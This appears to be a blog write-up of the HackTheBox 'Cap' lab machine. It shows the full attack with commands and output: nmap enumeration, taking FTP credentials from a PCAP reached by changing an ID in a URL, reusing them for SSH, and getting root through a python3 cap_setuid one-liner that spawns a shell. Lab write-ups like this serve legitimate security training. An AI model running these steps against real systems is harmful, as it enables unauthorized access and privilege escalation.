





# Cap
>Author : Alien0ne
>Date : 21 September 2021
>IP : 10.10.10.245
>OS : Linux
>Difficulty : Easy

Cap is a active machine available on the [HackTheBox](https://hackthebox.eu) platform. This room is rated as Easy. This room is created by @[InfoSecJack](https://app.hackthebox.eu/users/52045).

# Initial Enumeration

* I started the initial enumeration by running a Nmap scan looking for open ports and default scripts.

```sql

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/cap]
└─$ nmap -sC -sV -oA nmap 10.10.10.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-21 10:04 EDT
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.048s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 21 Sep 2021 14:04:29 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 21 Sep 2021 14:04:24 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 21 Sep 2021 14:04:24 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=9/21%Time=6149E667%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Tue,\x2021\x20Sep\x202021\x2014:04:24\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,\x2
SF:021\x20Sep\x202021\x2014:04:24\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20T
SF:ue,\x2021\x20Sep\x202021\x2014:04:29\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.21 seconds
```


* From the above Namp output we can see that we have three Ports are open. Port 21 (FTP vsftpd 3.0.3 ), Port 22 (ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2) and port 80 (http gunicorn).

* From the output we can see that there is no  Anonyomus login for FTP , So lets see whats running on port 80.



* After opening the dashboard I opend all the tabs and checked everything . Then I found the Security Snapshot (5 Second PCAP + Analysis)Tab intresting. Every time when I click on that tab there was a random number (below 10) in the url parameter and it was changing . When i saw the PCAP file for the first time in `http://10.10.10.245/data/4` 
 


* I download them and analysed them in wireshark but nothing found good.



* Then I started changing the number in the parameter manually starting with 0. ie `http://10.10.10.245/data/0`  



* Then I downloaded those PCAP file and anazlied it and I found the FTP traffic. On following the Stream I found the creds of the ftp user `nathan` .



* Then logged into FTP as nathan and It worked :)

```bash

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/cap]
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001          342 Sep 21 15:22 index.html
-rwxrwxr-x    1 1001     1001       473222 Sep 21 15:22 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 21 15:24 snap
-r--------    1 1001     1001           33 Sep 21 15:11 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (163.5866 kB/s)
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
550 Permission denied.
ftp> exit
221 Goodbye.

```

* I tried to upload the shell into FTP but it did not work because I dont have permissions to upload a file.
* Then I tried to login to the nathan user ssh using the same creds and it worked .

```bash

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/cap]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 21 18:13:18 UTC 2021

  System load:           0.08
  Usage of /:            36.7% of 8.73GB
  Memory usage:          33%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:3c22

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 21 15:17:56 2021 from 10.10.14.12
nathan@cap:~$ cat user.txt 
08044e*****************55cf3d884
nathan@cap:~$ 
```

* I found the User flag . 
* Now its time to escalate my privilege to root.
* Then Uploaded the linpeas script and found the capabilities very intresting.

```sql

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```
 
 * Then, a quick search on [gtfobins](https://gtfobins.github.io/gtfobins/python/#capabilities) led me to the root shell.
 
```sql 

nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt  snap
# wc -c root.txt
33 root.txt
# cat root.txt
80aa**********************9509da
# 

```

* Thanks for reading! Make sure you subscribe to the [blog](https://blog.alien0ne.me) for more upcoming HackTheBox writeups!